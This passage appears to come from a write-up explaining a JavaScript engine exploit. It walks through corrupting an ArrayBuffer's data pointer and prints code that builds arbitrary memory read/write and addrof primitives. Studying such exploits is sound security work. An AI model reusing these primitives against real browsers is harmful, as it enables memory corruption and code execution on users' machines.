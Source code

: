 
We can see that `0x7ffff7ebc4c0` is "the address of `buffers[79]`". If we left shift the data pointer `0x3ffffbf5e280`, we'll get `0x7ffff7ebc500` -- the data pointer of `buffers[79]`. 


Let's see what does the exploit do next:

```javascript
    // Trigger the bug a second time to write the modified data pointer
    view.set(RShift1(addressOfInnerArrayBuffer).bytes());
    view.offset = 0;
    view.copyWithin(32+8, hax, 8);
```

It triggers the bug second time, and modified `buffers[80]`'s data pointer into `addressOfInnerArrayBuffer`. This make us able to modified `buffers[79]`'s structure by editing `buffers[80]`, and thus we'll have an arbitrary read/write primitive !


```javascript 
    // |outer| is a byte view onto the corrupted ArrayBuffer which now allows us to arbitrarily modify the ArrayBuffer |inner|
    var inner = buffers[79];
    var outer = new Uint8Array(buffer); // here buffer = buffers[80]

    // Increase the size of the inner ArrayBuffer
    outer[43] = 0x1;

    // Object to access the process' memory
    var memory = {
        write: function(addr, data) {
            // Set data pointer of |inner|
            outer.set(RShift1(addr).bytes(), 32);
            // Uint8Array's cache the data pointer of the underlying ArrayBuffer
            var innerView = new Uint8Array(inner);
            innerView.set(data);
        },
        read: function(addr, length) {
            // Set data pointer of |inner|
            outer.set(RShift1(addr).bytes(), 32);
            // Uint8Array's cache the data pointer of the underlying ArrayBuffer
            var innerView = new Uint8Array(inner);
            return innerView.slice(0, length);
        },
        readPointer: function(addr) {
            return new Int64(this.read(addr, 8));
        },
        addrof: function(obj) {
            // To leak the address of |obj|, we set it as property of the |inner|
            // ArrayBuffer, then leak that using the existing read() method.
            inner.leakMe = obj;
            var addressOfSlotsArray = this.readPointer(Add(addressOfInnerArrayBuffer, 2*8));
            return Int64.fromJSValue(this.read(addressOfSlotsArray, 8));
        },
    };
```
